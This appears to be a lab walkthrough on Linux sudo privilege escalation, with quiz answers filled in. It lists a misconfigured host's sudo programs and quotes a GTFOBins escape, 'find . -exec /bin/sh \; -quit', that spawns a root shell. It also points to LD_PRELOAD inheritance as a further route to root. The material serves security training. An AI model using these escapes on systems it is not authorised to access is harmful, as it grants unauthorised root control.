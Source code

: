 sudo -l

Visit GTFOBins (https://gtfobins.github.io) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

Choose a program from the list and try to gain a root shell, using the instructions from GTFOBins.

For an extra challenge, try to gain a root shell using all the programs on the list!

Remember to exit out of the root shell before continuing!

How many programs is "user" allowed to run via sudo? 
11

```
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ 
```

One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?
Apache2

Consider how you might use this program with sudo to gain root privileges without a shell escape sequence.


Sample: from GTFObins

```
Shell
It can be used to break out from restricted environments by spawning an interactive system shell.

find . -exec /bin/sh \; -quit
```


===

Sudo can be configured to inherit certain environment variables from the user's environment.

Check which environment variables are inherited (look for the env_keep options):

sudo -l
